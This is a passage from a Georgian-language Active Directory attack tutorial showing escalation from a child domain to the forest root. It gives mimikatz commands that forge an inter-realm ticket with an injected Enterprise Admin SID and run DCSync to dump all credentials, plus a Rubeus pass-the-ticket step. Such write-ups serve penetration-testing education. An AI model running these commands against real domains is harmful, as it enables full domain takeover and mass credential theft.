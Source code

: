 **შენიშვნა**: ამ გზით ამოღება შეიცავს რისკებს, რადგან ხდება lsass.exe პროცესის მოდიფიკაცია რაც არის რისკის შემცველი.  სასურველია თუ აქ dcsync - ს გამოიყენებთ ამ ბრძანების ნაცვლად.

![Untitled](/images/forest/Untitled%204.png)


ავიღოთ მშობელი დომეინის Enterprise Admin ჯგუფის SID:

![Untitled](/images/forest/Untitled%205.png)


მიმდინარე დომეინის SID:

![Untitled](/images/forest/Untitled%206.png)

ვქმნით IR-TGT - ის mimikatz ის მეშვეობით:
```cmd
mimikatz # kerberos::golden /domain:child1.test.local /sid:S-1-5-21-335917780-3539237770-911515011 /sids:S-1-5-21-2262149426-912762142-519 /rc4:adb28e383cc67f99236699590ae0c0 /user: Administrator /service:krbtgt /target:test.local /ticket:C:\Users\Public\trust_tkt.kirbi
```
![Untitled](/images/forest/Untitled%207.png)


მშობელი დომეინის (test.local) დომეინ კონტროლერს ვაძლევთ ჩვენს trust_tkt.kirbi - ს და ვითხოვთ წვდომას cifs სერვისზე.
```cmd
./Rubeus.exe asktgs /ticket:C:\Users\Public\trust_tkt.kirbi /service:cifs/dc-1.test.local /dc:dc-1.test.local /ptt
```
![Untitled](/images/forest/Untitled%208.png)

Rubeus ხელსაწყოს პარამეტრი ``/ptt`` ნიშნავს მიმდინარე logon session - ში თიქეთის "ჩადება"
შემდგომ სქრინშოტზე ვხედავთ რომ გვაქვს TGS თიქეთი Administrator - ის იუზერით.

![Untitled](/images/forest/Untitled%209.png)


ასევე ჩვენ შეგვიძლია ``Rubeus.exe triage`` ბრძანებით ვნახოთ რა თიქეთები გვაქვს მემორიში და ასევე ვხედავთ ყველა logon session - ს.

![Untitled](/images/forest/Untitled%2010.png)

გავტესტოთ გვაქვს თუ არა წვდომა მშობელი დომეინის დომეინ კონტროლერზე:

![Untitled](/images/forest/Untitled%2011.png)


ვნახოთ ასევე თუ შეგვიძლია DCSync ოპერაციის განხორციელება

```cmd
mimikatz # lsadump::dcsync /all /csv /domain:test.local
```

![Untitled](/images/forest/Untitled%2014.png)

ეს იყო პირველი ნაწილი. მეორე ნაწილში შემოგთავაზებთ golden ticket - ების გამოყენებით ფორესტზე წვდომის მოპოვებას.